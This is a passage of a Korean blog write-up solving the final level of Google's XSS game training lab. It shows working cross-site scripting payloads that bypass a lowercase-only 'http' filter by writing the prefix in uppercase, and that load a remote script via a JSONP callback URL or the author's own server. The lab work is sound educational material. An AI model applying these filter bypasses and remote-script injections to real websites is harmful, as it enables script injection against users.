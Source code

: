 script 소스코드를 살펴보니 아래와 같은 매커니즘으로 동작하고 있었다.  

```sh
1. URL에서 # 뒤의 값을 가져와 url 변수에 저장  
2. url 변수에서 https:// 형태의 값이 있는지 검사  
3. 만약 https:// 형태의 값이 있을 경우, Sorry, cannot load a URL containing "http" 출력하고 종료  
4. 필터링을 통과 할 경우 해당 url에 있는 script 코드를 그대로 load  
```

따라서 외부의 링크에서 악성 스크립트 코드를 생성 해 # 뒤에 넘겨주면 이를 그대로 실행 해 준다.
이 때 `http://` 혹은 `https://`에는 필터링이 있으므로 외부의 악성 스크립트 코드 주소에서 해당 값은 없어야 한다.

필터링을 하는 부분을 잘 살펴보면, 정규표현식의 형태로 되어있다.
그런데 소문자에 대해서는 필터링이 있지만, http중 한 글자라도 대문자가 있으면 필터링에 걸리지 않는다.
이에 외부의 링크에서 alert 창을 띄울 수 있는 script 코드를 구현한 후, `http` 대신 대문자로 `HTTP`를 사용 해 # 뒤에 넘겨주면 된다.
먼저 alert를 띄울 수 있는 스크립트 코드를 `test.js`라는 이름으로 아래와 같이 구현했다.  

```js
alert(1);
```

이 후 # 뒤에 `HTTP://내서버의주소/test.js`를 전달 해 주었는데, 제대로 작동하지 않았다.
`Sorry, I can't navigate the frame to that URL` 이라는 alert 창만 떴다.

그래서 이 문제는 힌트를 참고하게 되었다.
4번째 힌트를 보면 아래와 같은 내용이 있다.  

```sh
4. If you can't easily host your own evil JS file, see if google.com/jsapi?callback=foo will help you here.
```

힌트에 따라 `google.com/jsapi?callback=foo`에 접속 해 보았더니 코드가 있었다.
그런데 하단에 아래와 같이 `foo()` 함수를 호출하는데, 이때 foo는 `callback`의 값으로 넘어간 값이었다.  

![](/images/xssgame/xssgame_16.PNG)

이에 `foo` 대신 `alert`를 넘겨주면 소스코드의 하단에서 `foo();` 대신 `alert();`를 호출하지 않을까 싶어 `alert`를 넘겨주어 보았다.  

![](/images/xssgame/xssgame_17.PNG)

예상대로 `alert();`를 호출하게 된다.
이에 해당 URL에서 `http://`를 대문자로 바꾸어 문제의 # 뒤에 전달 해 주었다.  

```sh
http://xss-game.appspot.com/level6/frame#HTTPS://www.google.com/jsapi?callback=alert
```

그 결과 드디어 마지막 문제를 풀 수 있었다.  

![](/images/xssgame/xssgame_18.PNG)

---  

이렇게 6단계의 문제를 모두 풀 수 있었다.  

![](/images/xssgame/xssgame_19.PNG)

마지막 문제에서 어떤 부분 때문인지, 이론상으론 될 것 같은데 문제가 풀리지 않아 오래 고민을 했다.
그런데 문제를 다 푼 다음에 도대체 왜 안되는지를 모르겠어서, 처음에 시도한 방법을 다시 해 보았더니 이번엔 문제가 풀렸다.  

```sh
http://xss-game.appspot.com/level6/frame#HTTP://내서버의주소/test.js
```

![](/images/xssgame/xssgame_20.PNG)

기준이 따로 있는건지 뭔지 모르겠다.
어찌됬든 6문제 모두 CLEAR!  
